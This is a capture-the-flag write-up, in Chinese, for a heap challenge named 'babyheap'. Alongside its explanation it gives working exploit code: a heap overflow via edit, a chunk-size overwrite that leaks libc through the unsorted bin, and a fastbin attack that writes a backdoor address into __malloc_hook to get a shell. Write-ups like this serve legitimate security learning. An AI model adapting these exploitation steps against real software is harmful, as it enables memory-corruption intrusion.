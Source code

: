 # babyheap  
![](./pics/chc.png)  
又是一道有后门的题  
**show**  
![](./pics/show.png)  
**create**  
![](./pics/create.png)  
**del**  
![](./pics/del.png)  
**edit**  
![](./pics/edit.png)  
很明显的bug是edit那里，可以编辑0x50字节，也就是说能覆盖下面的heap。  
```
create(0,0x18,b'aaaa')
create(1,0x48,b'bbbb')
create(2,0x48,b'cccc')
create(3,0x18,b'dddd')
payload=b'f'*0x18+b'\xa1'
edit(0,payload)
delete(1)
show(0,0x30)
p.recv(0x28)
leak =u64(p.recv(8))
print(hex(leak))
```
把1处的heap大小改为0xa1，释放后使其放进unsortedbin，通过show函数得到bk和fd，泄露libc地址，使用LibcSearcher得知远程环境libc版本为2.23（没给附件，自己下载）  
下面接下来劫持malloc_hook，把后门函数放进malloc_hook就行了。  
因为给的create的数量很多，不需要节约，使用fastbin_attack，释放两个大小为0x18(实际为0x20)的heap，让新heap开到存放heap地址的地方  
```
create(1,0x48,b'nnnn')
create(6,0x48,b'tttt')
create(4,0x18,b'mmmm')
create(5,0x18,b'tttt')
create(7,0x21,b'tttt')
# pause()
delete(4)
delete(5)
delete(6)
payload=p64(0)*3+p64(0x21)+p64(0)*3+p64(0x21)+p64(0x404120+8)
edit(3,payload)
create(4,0x18,b'mmmm')
create(5,0x18,b'mmmm')
```
![](./pics/4040c02.png)  
看到索引为5的heap确实在0x4040c0上接下来真的就是为所欲为了，可以任意地址写，把后门函数放到malloc_hook即可。  
```
payload=p64(hook)
edit(5,payload)
edit(7,b'\xdd\x16\x40\x00\x00\x00\x00')
create(8,0x50,b'nnnn')
p.interactive()
```
再次调用malloc时就能getshell。
